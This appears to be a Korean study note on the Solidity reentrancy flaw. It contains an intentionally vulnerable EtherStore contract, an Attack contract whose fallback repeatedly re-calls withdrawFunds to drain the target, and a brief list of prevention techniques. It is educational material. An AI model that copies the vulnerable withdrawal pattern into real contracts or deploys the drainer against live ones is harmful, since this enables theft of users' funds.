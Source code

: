 # Reentrancy 재진입성
- fallback 함수를 악용한 취약점
- fallback 함수에서 다시 출금 함수(withdrawFunds)를 호출

[EtherStore.sol]()
```solidity
contract EtherStore {

    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;

    //입금함수
    function depositFund() public payable {
        balances[msg.sender] += msg.value;
    }

    //출금함수
    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        require(_weiToWithdraw <= withdrawalLimit);
        require(block.timestamp >= lastWithdrawTime[msg.sender] + 1 weeks);

        //변경전
        // requrie(msg.sender.calㅣ.value(_weiToWithdraw)());

        //변경후 (0.6.4 버전 이후)
        (bool success, ) = msg.sender.call {value:_weiToWithdraw}("");
        require(success, "Transfer failed.");

        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = block.timestamp;
    }
}
```
[Attack.sol]()

```solidity
import "contracts/Reentrancy/EtherStore.sol"; //경로 주의

contract Attack {
    EtherStore public etherStore;

    // 계약자 주소(공격 대상)로 etherStore 변수를 초기화
    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    } 

    //공격 함수
    function attackEtherStore() public payable {
        require(msg.value >= 1 ether);
        
        //계약자 주소(공격대상)에 1이더를 임금
        //1. depositFunds함수를 호출하여 1 이더 악성계약을 맺음
        etherStore.depositFunds{ value: 1 ether}();
        
        //출금함수 호출
        //2. 악성 계약은 withdrawFunds 출금 함수에 입금한 1이더를 요청.
        // 이전에 거래한 적이 없어 모든 조건을 통과함 (EtherStore.sol 출금조건)
        //3. 계약자가 컨트랙트라 호출 시 에러가 발생
        etherStore.withdrawFunds(1 ether);
    }
  
    function collectEther() public {
        payable(msg.sender).transfer((address(this)).balance);
    }

    //fallback function(종료시 호출)
    //4. 악성계약의 fallback 함수를 실행
    fallback() payable external{
        //계약자 주소(공격 대상)에 이더가 있을 경우 다시 출금 함수를 호출
        //5. 잔액을 비교하여 남아 있는지 확인
        if(address(etherStore).balance > 1 ether) {
            //6. 잔액이 있을 경우 다시 withdrawFunds 함수를 호출
            //7. 이 두번째 withdrawFunds 함수도 아직 실행 전이라 
            //1이더는 여전히 남아 있어 모든 요구 사항이 충족되어 모든 조건을 통과 (EtherStore.sol 출금조건)
            //8. fallback 함수는 잔액이 0 이더일 때 까지 계속 withdrawFunds 함수를 호출
            etherStore.withdrawFunds(1 ether);
        }
    }

}
```
<hr>

## 예방 기법

1. transfer 함수 호출 (권장 안함)
2. The checks-effects-interactions pattern (외부 호출 전에 값을 먼저 수정)
3. 뮤텍스 이용 (이전 호출을 종료한 후 다음 호출을 실행)
    > **뮤텍스 Mutex(Mutual Exclusion)**      
    임계구역에 들어갈 권한 검사   
    ex) `bool reEntrancyMutex = false;` 재진입 가능   
        `bool reEntrancyMutex = true;` false로 바뀔때 까지 재진입 불가능
<hr>


